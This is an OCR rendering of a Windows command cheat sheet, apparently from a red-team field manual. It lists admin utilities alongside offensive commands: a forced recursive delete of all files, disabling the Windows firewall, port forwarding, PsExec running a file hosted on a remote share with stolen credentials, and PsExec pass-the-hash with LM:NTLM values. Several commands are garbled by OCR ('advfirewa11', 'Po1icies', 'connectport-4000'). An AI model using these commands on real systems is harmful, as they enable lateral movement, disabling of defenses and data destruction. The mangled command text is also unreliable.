 
### WINDOWS UTILITY COMMANDS

type file                                     Display file contents
del path \'.' /a /s /q /f                     Forceably delete all files in path
find /I "str" filename                        Find "str"
command	| find /c /v ""                        Line count of cmd output
at HH:MM file [args] (i.e. at 14:45 cmd /c)   Schedule file to run
runas /user: user " file [args]"              Run file as user
restart /r /t 0                               Restart now
tr -d '\15\32'	win.txt	unix.txt                 Removes CR & 'Z ('nix)
makecab file                                  Native compression
Wusa.exe /uninstall /kb: ###                  Uninstall patch
cmd.exe "wevtutil qe Application /c:40        CLI Event Viewer
/f:text /rd:true"
lusrmgr.msc                                   Local user manager
services .msc                                 Services control panel
taskmgr.exe                                   Task manager
secpool.msc                                   Security policy manager
eventvwr.msc                                  Event viewer


### Misc. COMMANDS

LOCK WORKSTATION

rundll32.dll user32.dll LockWorkstation

DISABLE WINDOWS FIREWALL

netsh advfirewa11 set currentprofile state off 
netsh advfirewall set allprofiles state off


NATIVE WINDOWS PORT FORWARD (* MUST BE ADMIN)

netsh interface portproxy add v4tov4 listenport=3000 
listenaddress=1.1.1.1 connectport-4000 connectaddress=2.2.2.2
*Remove
netsh interface portproxy delete v4tov4 listenport=3000 listenaddress=1.1.1.1


RE-ENABLE COMMAND PROMPT

reg add HKCU\Software\Po1icies\Microsoft\Windows\System /v DisableCMD /t REG_DWORD /d 0 /f


### PSEXEC

EXECUTE FILE HOSTED ON REMOTE SYSTEM WITH SPECIFIED CREDENTIALS

psexec /accepteula \\ targetIP -u domain\user -p password -c -f 
\\ smbIP \share\file.exe


RUN REMOTE COMMAND WITH SPECIFIED HASH

psexec /accepteula \\ ip -u Domain\user -p LM : NTLM cmd.exe /c dir c:\Progra-1
